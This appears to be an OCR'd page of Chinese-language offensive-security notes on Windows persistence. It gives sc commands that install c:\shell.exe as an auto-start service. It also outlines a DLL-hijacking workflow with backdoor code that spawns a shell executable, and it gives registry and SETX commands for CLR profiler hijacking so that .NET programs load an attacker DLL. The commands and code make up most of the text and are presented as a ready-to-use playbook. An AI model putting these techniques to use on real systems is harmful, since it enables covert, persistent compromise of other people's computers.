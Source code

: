```
自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务。
sc create test binpath= c:\shell.exe      (注意等号后面有空格) #创建服务
sc config test start= auto                #设置服务为自动启动
net start test                            #启动服务
```
8. 黄金白银票据
9. DLL劫持

```

dll加载顺序:
Windows xp sp2之前：
1. 进程对应的应用程序所在目录；
2. 当前目录（Current Directory）；
3. 系统目录（通过 GetSystemDirectory 获取）；
4. 16位系统目录；
5. Windows目录（通过 GetWindowsDirectory 获取）；
6. PATH环境变量中的各个目录；

Windows xp sp2之后：
Windows查找DLL的目录以及对应的顺序（SafeDllSearchMode 默认会被开启）：
默认注册表为：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode，其键值为1
1. 进程对应的应用程序所在目录（可理解为程序安装目录比如C:\ProgramFiles\uTorrent）
2. 系统目录（即%windir%system32）；
3. 16位系统目录（即%windir%system）；
4. Windows目录（即%windir%）；
5. 当前目录（运行的某个文件所在目录，比如C:\Documents and Settings\Administrator\Desktop\test）；
6. PATH环境变量中的各个目录；

win7以上版本：
系统没有了SafeDllSearchMode 而采用KnownDLLs，那么凡是此项下的DLL文件就会被禁止从exe自身所在的目录下调用，而只能从系统目录即SYSTEM32目录下调用，其注册表位置：
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs

劫持流程：
1. 使用ahaeadlib将源dll文件转为cpp文件
2. 使用visual studio打开cpp文件插入要执行的后门代码，并生成新的dll文件
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess(TEXT("C:\\shell.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

```
10. CLR劫持

```

CLR称公共语言运行时。CLR是.NETFramework的主要执行引擎，作用之一是监视程序的运行。
可以理解成，让系统在执行.NET程序的时候先执行一个你指定的dll文件。

1.修改注册表：
REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /VE /T REG_SZ /D "C:\test.dll" /F
REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /V ThreadingModel /T REG_SZ /D Apartment /F
 
2.配置全局环境变量（不然只在当前cmd窗口劫持.net程序）
SETX COR_ENABLE_PROFILING 1 /M
SETX COR_PROFILER {11111111-1234-1234-1234-111111111111} /M

3.然后直接执行powershell即可上线。

```

